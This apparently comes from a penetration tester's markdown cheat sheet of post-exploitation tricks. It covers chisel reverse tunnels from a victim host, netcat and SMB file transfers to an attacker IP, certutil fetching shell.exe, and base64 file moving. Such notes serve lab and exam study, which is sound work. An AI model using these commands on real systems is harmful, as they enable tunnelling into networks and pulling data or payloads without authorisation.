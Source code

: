 * [ ] use `sudo cpan` and `install <library>` to add perl libraries

## TRICKS

### Port Forwarding

```bash
# First on Kali:
chisel server -p 9001 --reverse
# Then on host (victim):
chisel client <your-kali-ip>:9001 R:3306:127.0.0.1:3306 # 3306 for mysql, but could be any port you want
./chisel client 192.168.49.206:6003 R:27017:127.0.0.1:27017 # 3306 for mysql, but could be any port you want
```

### Create New User

```bash
# Linux
openssl passwd -1
```

### File Transfer

* [ ] Netcat:

```bash
# In host:
nc -w 3 192.168.49.99 9000 < file
# In kali:
nc -lvnp 9000 > file
```

* [ ] Certutil:

```bash
certutil -urlcache -f http:// shell.exe
```

* [ ] SMB:

```bash
impacket-smbserver.py share . -smb2support -username hacker -password hacker # launch smb server
C:\ net use \\10.10.14.134\share /u:hacker hacker # connect to smb server from host
C:\ copy winPEASx64.exe \\10.10.14.9\share\ # copy local file to attacker machine
C:\ net use /d \\10.10.14.9\share\ # disconnect from smb server
```

* [ ] Base64:

```bash
C:\ certutil -encode <file> encoded.txt
C:\ type encoded.txt` # copy files manually (ctrl+C)
kali> `echo -n "<Ctrl+V>" | base64 -d > decoded_file
```
